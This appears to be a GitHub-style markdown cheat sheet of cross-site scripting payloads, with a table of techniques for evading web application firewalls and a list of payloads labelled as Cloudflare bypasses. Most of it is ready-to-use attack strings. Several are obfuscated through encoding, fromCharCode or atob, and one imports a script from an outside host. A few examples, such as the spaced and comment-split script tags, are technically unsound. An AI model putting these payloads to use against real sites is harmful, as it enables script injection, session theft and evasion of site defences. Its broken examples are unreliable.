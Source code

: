 

## xss paylaod

```
i2lte%22%3e%3cscript%3ealert(1)%3c%2fscript%3eayawz

```
# Bypassing WAF in XSS Attacks

Bypassing WAF (Web Application Firewall) in XSS (Cross-Site Scripting) attacks relies on exploiting various techniques and methods to bypass the protection put in place by the firewall. Below are some techniques and examples.

## Techniques and Examples

| **Technique**                                 | **Description**                                                                                                           | **Example**                                                                                                           |
|-----------------------------------------------|---------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|
| **Encoding**                                 | Input encoding can be used to confuse WAF and prevent malicious payload detection.                                         | URL Encoding: `<script>alert('XSS')</script>` encoded as `%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`<br>HTML Entity Encoding: `&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;` |
| **Using Comments**                          | Some WAFs may ignore input if the code is split via comments.                                                              | `<scr<!--comment-->ipt>alert('XSS')</scr<!--comment-->ipt>`                                                             |
| **Case Variation**                          | WAF can be case sensitive. Change the case to make the code undetectable.                                                 | `<ScRipT>alert('XSS')</sCrIpT>`                                                                                         |
| **Alternative Event Handlers**               | Exploit events in HTML that may not be strictly checked by WAF, such as onfocus or onmouseover.                           | `<img src="x" onerror="alert('XSS')">`<br>Replaced by `<input onfocus="alert('XSS')">`                               |
| **Padding Characters**                       | Add spaces or insignificant characters inside the malicious code to make it undetectable.                                  | `<scr ipt>alert('XSS')</scr ipt>`                                                                                       |
| **Use eval(), setTimeout(), or setInterval()** | Some WAFs scan for obvious code like alert() or document.write(). Using functions like eval() or setTimeout() can make code less obvious. | `<script>setTimeout(function(){alert('XSS')}, 100);</script>`                                                           |
| **JavaScript Coding Using String.fromCharCode** | Use String.fromCharCode function to generate JavaScript code dynamically.                                                | `<script>alert(String.fromCharCode(88,83,83));</script>` (prints "XSS")                                                |
| **DOM-based XSS Techniques**                 | Bypass WAF using techniques that rely on XSS in the DOM only.                                                               | ```javascript<br>var input = document.createElement('input');<br>input.setAttribute('onfocus', 'alert("XSS")');<br>document.body.appendChild(input);<br>input.focus();<br>``` |
| **Hiding Code Inside Unexpected Media**      | Embed XSS code inside non-traditional HTML elements, such as SVG files or titles.                                          | `<svg onload="alert('XSS')"></svg>`                                                                                     |
| **Complex Conditional Statements or Mathematical Functions** | Use conditional statements or mathematical operations to make malicious code less obvious.                                | `<script>if(1<2){alert('XSS')}</script>`                                                                                 |
| **JavaScript: In URL**                       | Insert JavaScript code inside a URL using the javascript: protocol.                                                       | `<a href="javascript:alert('XSS')">Click me</a>`                                                                       |
| **Exploit Weak or Non-Comprehensive Filters**| Some WAFs may not scan all input types or fields. Inject code in unexpected places.                                         | `<input type="hidden" value="<script>alert('XSS')</script>">`                                                          |

## Cloudflare Bypass Payloads

| **Payload**                                                                                 |
|---------------------------------------------------------------------------------------------|
| `<A HRef=//X55.is AutoFocus %26%2362 OnFocus%0C=import(href)>`                            |
| `"prompt(document.domain)"`                                                                 |
| `<img/src=x onError="${x};alert(Hello);">`                                                  |
| `<img%20hrEF="x"%20sRC="data:x,"%20oNLy=1%20oNErrOR=prompt\`1\``                        |
| `<img/src/onerror=setTimeout(atob(/YWxlcnQoMTMzNyk/.source))>`                            |
| `%3cSvg%20Only%3d1%20OnLoad%3dconfirm(1)%3e`                                              |
| `<select><style></select><svg onload=alert(1)></style>`                                    |
| `"><img src=x onerrora=confirm() onerror=confirm(1)>`                                      |
| `<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>`                           |
| `"><input%252bTyPE%25253d"hxlxmj"%252bSTyLe%25253d"display%25253anone%25253b"%252bonfocus%25253d"this.style.display%25253d'block'%25253b%252bthis.onfocus%25253dnull%25253b"%252boNMoUseOVer%25253d"this['onmo'%25252b'useover']%25253dnull%25253beval(String.fromCharCode(99,111,110,102,105,114,109,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))%25253b"%252bAuToFOcus>` |
| `%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E`                                      |
| `<img/src=x onError="${x};alert(Hello);">`                                                |
| `&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;`                          |
| `"><track/onerror='confirm\`1\`'>`                                                         |
| `<inpuT autofocus oNFocus="setTimeout(function() { /\/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/\/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;` |
| `<inpuT autofocus oNFocus="setTimeout(function() { /*\*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;` |
